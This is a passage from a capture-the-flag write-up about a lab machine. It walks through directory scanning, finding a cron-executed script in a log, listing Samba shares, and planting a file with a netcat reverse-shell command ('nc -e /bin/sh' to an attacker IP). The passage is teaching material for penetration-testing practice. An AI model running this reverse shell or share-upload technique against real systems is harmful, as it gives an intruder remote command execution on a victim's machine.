 Running the tool results in this output.
``` bash
    $ go run directory_scanner.go -h http://192.168.126.11/ -w common.txt
    http://192.168.126.11/
    http://192.168.126.11/index.html
    http://192.168.126.11/logs
```
The logs directory looks interesting. I visit this URL in my web
browser, and the webpage displays several files. I download the only
file that is not empty.


{{< image src="/img/1dawn/log.png" alt="management log" position="center" style="border-radius: 8px;" >}}



The file contains a large number of logs. The logs are a bit too dense
to read manually. I use the find tool in kwrite to look for evidence of
files being run. I discovered a log that indicates a file was being run
in the ITDEPT folder of a user named dawn. If we could upload a file
with the same name to the folder there is a chance it would be run.
Luckily earlier, we noted that ports associated with samba share were
open on the machine. A samba share seems like a viable means of
uploading files to the machine.
```bash 
2020/08/12 09:50:01 [31;1mCMD: UID=1000 PID=1880   | /bin/sh -c /home/dawn/ITDEPT/product-control [0m
```
I use smbclient to see which shares were open on the machine. The ITDEPT share looks like it is related to the folder we want access to.
```bash
     ~ [SIGINT]> smbclient -L //192.168.1.165/  
    Can't load /etc/samba/smb.conf - run testparm to debug it  
    Password for [WORKGROUP\spook2]:  
      
           Sharename       Type      Comment  
           ---------       ----      -------  
           print$          Disk      Printer Drivers  
           ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.  
           IPC$            IPC       IPC Service (Samba 4.9.5-Debian)  
    SMB1 disabled -- no workgroup available
```
Connecting to the share allows me to upload a file to the folder. I
begin by creating a file with the following contents named after the
file I noted begin ran in the logs earilier.
``` bash
nc -e /bin/sh 192.168.1.197 80
```
If this command is executed, it will create a reverse shell. A reverse
shell means the victim\'s computer will reach out to my computer and then
execute whatever commands I send it. I need to set up a listener on my
machine. The listener will be the process that waits for the victim to
connect. After the victim connects to the listener, I can run commands
on that machine. The program netcat will be used to create a listener on
my machine. The following command will do so:
